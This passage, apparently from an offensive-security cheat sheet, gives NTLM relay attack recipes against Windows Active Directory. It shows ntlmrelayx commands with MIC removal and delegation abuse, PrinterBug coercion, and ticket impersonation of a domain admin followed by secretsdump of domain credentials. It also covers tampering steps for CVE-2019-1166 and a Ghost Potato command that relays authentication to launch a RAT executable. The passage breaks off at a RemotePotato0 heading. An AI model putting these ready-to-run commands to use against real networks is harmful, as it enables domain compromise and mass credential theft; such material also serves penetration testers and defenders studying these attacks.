     ```powershell
    # create a new machine account
    TERM1> ntlmrelayx.py -t ldaps://rlt-dc.relaytest.local --remove-mic --delegate-access -smb2support 
    TERM2> python printerbug.py relaytest.local/username@second-dc-server 10.0.2.6
    TERM1> getST.py -spn host/second-dc-server.local 'relaytest.local/MACHINE$:PASSWORD' -impersonate DOMAIN_ADMIN_USER_NAME

    # connect using the ticket
    export KRB5CCNAME=DOMAIN_ADMIN_USER_NAME.ccache
    secretsdump.py -k -no-pass second-dc-server.local -just-dc
    ```


## Drop the MIC 2 - CVE-2019-1166

> A tampering vulnerability exists in Microsoft Windows when a man-in-the-middle attacker is able to successfully bypass the NTLM MIC (Message Integrity Check) protection. An attacker who successfully exploited this vulnerability could gain the ability to downgrade NTLM security features. To exploit this vulnerability, the attacker would need to tamper with the NTLM exchange. The attacker could then modify flags of the NTLM packet without invalidating the signature.

* Unset the signing flags in the `NTLM_NEGOTIATE` message (`NTLMSSP_NEGOTIATE_ALWAYS_SIGN`, `NTLMSSP_NEGOTIATE_SIGN`)
* Inject a rogue msvAvFlag field in the `NTLM_CHALLENGE` message with a value of zeros
* Remove the MIC from the `NTLM_AUTHENTICATE` message
* Unset the following flags in the `NTLM_AUTHENTICATE` message: `NTLMSSP_NEGOTIATE_ALWAYS_SIGN`, `NTLMSSP_NEGOTIATE_SIGN`, `NEGOTIATE_KEY_EXCHANGE`, `NEGOTIATE_VERSION`.

```ps1
ntlmrelayx.py -t ldap://dc.domain.com --escalate-user 'youruser$' -smb2support --remove-mic --delegate-access
```


## Ghost Potato - CVE-2019-1384

Requirements:

* User must be a member of the local Administrators group
* User must be a member of the Backup Operators group
* Token must be elevated

Using a modified version of ntlmrelayx : https://shenaniganslabs.io/files/impacket-ghostpotato.zip

```powershell
ntlmrelayx -smb2support --no-smb-server --gpotato-startup rat.exe
```


## RemotePotato0 DCOM DCE RPC relay 

> It abuses the DCOM activation service and trigger an NTLM authentication of the user currently logged on in the target machine
